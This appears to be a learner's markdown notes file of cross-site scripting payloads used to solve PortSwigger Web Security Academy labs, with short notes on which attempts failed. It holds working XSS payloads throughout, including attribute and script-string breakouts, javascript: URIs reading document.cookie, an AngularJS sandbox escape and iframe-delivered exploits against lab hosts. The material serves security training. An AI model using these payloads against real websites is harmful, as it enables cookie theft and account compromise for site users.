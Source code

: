 # xss


==========================================

http://example.com/swagerUI/      SERARCH for swagerui xss payload

==========================================


------------------------------- portswigger laps ----------------------------------

# (1)         

```html
 <h1> 'test' </h1>
       test' </h1>   <script> alert() </script>  <!--
```

-----------------------------------------------------------------------------------
             
# (2)          

### in comments 

```html
<img onload=alert()>
```
-----------------------------------------------------------------------------------

# (3)       

 > ### the 'test >' found it but encoded in html so what is the solution:
   * > i found js code that take query form search and put it in src of img so

     > i put payload in this image


```html
 <img src="query">
             <img src="query" onload=alert()>

             <img src="/resources/images/tracker.gif?searchTerms='+query+'">
                                                                    hello'" onload='alert()'> 
```
            
------------------------------------------------------------------------------------

# (4)         
### the test not in sourse code but there is JS dom code make query in url   

```url
/?search=test
/?search=javascript:confirm()      not work 
/?search=<svg onload=alert()>
```
             
------------------------------------------------------------------------------------

# (5)         
### if i try to submit feedback i notice that in URL 

```url
/feedback?returnPath=/
/feedback?returnPath=javascript:alert(document.cookie)
```
     
------------------------------------------------------------------------------------

# (6) 

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
------------------------------------------------------------------------------------
 
# (7)        
### when write test i found it appear in sourse code in two places 

```html
<h1>0 search results for 'test'</h1>
<input type=text placeholder='Search the blog...' name=search value="test">
```
###  i try

```html
test' <img src=x onerror=alert()>        <!-- not work -->
test' <img src=x onclick=alert()>        <!-- not work -->
```
### i notice that the ``<>`` are encoded in source code so i can't use them in ``<input>`` so i try:

```html
test"onmouseover="alert(1)"
```
              
------------------------------------------------------------------------------------

# (8)          
### in website input field 

```html
javascript:alert()
```
             
------------------------------------------------------------------------------------

# (9)         
### in soruse code i found 

```html
<script>
     var searchTerms = 'test';
```

```html
                       'test' alert();     -- not work --
                       'test'; alert();//';  -- solved --
```
             
                                          
------------------------------------------------------------------------------------

# (10)         

```url
product?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

------------------------------------------------------------------------------------

(11)  DOM XSS in AngularJS expression
 
form portswigger sheet cheat i found

         {{constructor.constructor('alert(1)')()}} 


-------------------------------------------------------------------------------------

# (12)  

```js
\"-alert()}//
```

> ``\``   ==> to close Get / in request

> ``"``   ==> to close the value of json
 
> ``}//`` ==> close json 

------------------------------------------------------------------------------------

# (13)   

```html
<> <img src=x onerror=alert()>
```

-----------------------------------------------------------------------------------

# (14)  

```html
<iframe src="https://0aaf0027041a761d816bed2a006f0054.web-security-academy.net
/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

-----------------------------------------------------------------------------------

# (15) 

```
 <script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```



------------------------------------------------------------------------------------

# (16)

 <svg><animatetransform onbegin=alert(1) attributeName=transform>


-------------------------------------------------------------------------------------

